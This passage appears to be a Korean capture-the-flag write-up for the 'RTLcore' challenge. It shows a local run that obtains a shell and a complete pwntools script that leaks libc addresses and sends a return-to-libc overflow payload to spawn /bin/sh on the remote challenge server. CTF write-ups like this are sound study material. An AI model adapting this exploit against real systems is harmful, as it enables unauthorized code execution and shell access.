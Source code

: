 ```python
➜  RTLcore git:(master) ✗ python2 rtlcore.py
[+] Starting local process './rtlcore': pid 21996
코어 파일에 액세스중입니다...
패스코드를 입력해주세요
Passcode:
코드가 일치하구나. 좋아, 다음 단서를 던져주지

너에게 필요한 것은 바로
printf addr :  0xf7df5430
 일거야

libc_base :  0xf7da4000
system_addr :  0xf7de12e0
binsh_addr :  0xf7f220af
[*] Switching to interactive mode
$ ls
core  libc.so.6  rtlcore  rtlcore.py
```

로컬에선 쉘이 떴지만 리모트에선 libc가 다르기 때문에 불가능하다. 근데 문제는 웃긴게 내 aws서버에서 LD_LIBRARY_PATH를 설정하면 바이너리가 뻑난다. 이유가 뭘까...

정확한 이유는 모르겠지만 우분투 버전에서의 차이인가 싶다. 그래서 gdb를 통해 오프셋을 얻고 익스코드를 다시짰다.

```python
from pwn import *

#context.arch = 'i386'
#context.terminal=['tmux', 'splitw', '-h']
#p = process("./rtlcore")
e = ELF("./libc.so.6")
libc = ELF("./libc.so.6")
p = remote('ctf.j0n9hyun.xyz', 3015)
#gdb.attach(p, 'b*0x0804867a')
printf_offset = 0x49020
system_offset = 0x0a940
binsh_offset = 0x15902b
print p.recvuntil("Passcode: ")

payload = ''
payload += p32(0x2691f021)*4 + p32(0x2691f021 + 2)
p.sendline(payload)
print p.recvuntil("0x")
printf = int(p.recv(8), 16)
print "printf addr : ",hex(printf)

libc_base = printf - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + libc.search("/bin/sh").next()
print "libc_base : ", hex(libc_base)
print "system_addr : ", hex(system_addr)
print "binsh_addr : ", hex(binsh_addr)

payload = ''
payload += "A"*66
payload += p32(system_addr)
payload += "AAAA"
payload += p32(binsh_addr)

p.sendline(payload)
p.interactive()
```
